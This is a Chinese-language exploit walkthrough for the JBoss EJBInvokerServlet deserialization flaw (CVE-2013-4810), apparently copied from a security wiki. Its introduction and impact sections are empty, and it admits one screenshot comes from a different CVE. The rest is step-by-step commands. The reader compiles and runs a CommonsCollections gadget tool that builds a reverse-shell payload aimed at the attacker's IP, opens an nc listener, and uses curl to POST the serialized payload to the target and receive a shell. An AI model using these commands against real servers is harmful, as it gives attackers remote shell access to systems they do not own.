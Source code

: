 # （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Jboss/（CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞.html](http://book.iwonder.run/0day/Jboss/（CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

win7 一台，ip 为 172.26.1.151（靶机，安装了 java 环境）

kali 一台，ip 为 192.168.1.192(攻击机)

输入[http://172.26.1.151:8080/invoker/EJBInvokerServle](http://172.26.1.151:8080/invoker/EJBInvokerServle) 返回如图（图片是 CVE-2015-7501 的图片。差不多就是这个意思。凑活看哈~），说明接口开发，存在反序列化漏洞

![image](img/83f5ba5e78440af29d0e94bff3b5b414.png)

进入 kali 攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

继续执行命令:

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP 是攻击机 ip,4444 是要监听的端口) 
```

新界面开启 nc 准备接收反弹过来的 shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个 ReverseShellCommonsCollectionsHashMap.ser 文件，然后我们 curl 就能反弹 shell 了，执行命令:

```
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](img/2e76b04298bf2943e68312d636e4f18c.png)

打开 nc 界面，发现 shell 已经弹回来了

![image](img/34b0dff931d234d8e187eb2d9b111bd4.png)

